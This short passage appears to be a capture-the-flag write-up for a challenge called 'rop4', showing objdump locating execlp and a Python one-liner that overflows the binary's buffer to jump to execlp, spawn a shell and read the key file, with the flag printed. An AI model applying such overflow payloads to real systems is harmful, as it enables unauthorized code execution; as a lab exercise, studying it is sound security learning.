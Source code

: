 ```sh
$ objdump -t rop4 | grep execlp
08053ab0 g     F .text 0000012a execlp
$ (python -c 'print "\x90"*140 + "\xb0\x3a\x05\x08" + "\x87\xd8\xff\xff"*2 + "\x00"*4'; cat) | ./rop4
cat /problems/ROP_4_887f7f28b1f64d7e/key
fluent_in_roponese
```